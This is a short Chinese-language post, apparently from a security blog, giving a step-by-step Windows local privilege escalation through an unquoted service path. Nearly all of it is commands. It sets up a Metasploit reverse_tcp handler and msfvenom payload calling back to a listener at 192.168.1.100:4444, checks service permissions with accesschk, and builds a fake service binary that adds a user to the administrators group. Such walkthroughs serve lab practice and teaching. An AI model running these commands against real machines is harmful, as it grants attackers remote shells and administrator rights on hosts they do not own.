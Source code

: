 ```yaml
---
title: 未打引号的路径&windows本地提权
categories:
- windows
tags:
- windows
---
```


我录制了一个演示[视频](https://www.bilibili.com/video/av88996589)

## meterpreter开启监听
```
msfconsole
handler -H 192.168.1.100 -P 4444 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe

search trusted_service
use 0
set session 1
run
```
## 查看服务权限
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc unquotedsvc

C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe /accepteula -uwcqv user *

sc qc unquotedsvc
```
## 生成伪造的服务
```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe

sc start unquotedsvc
net localgroup administrators
```

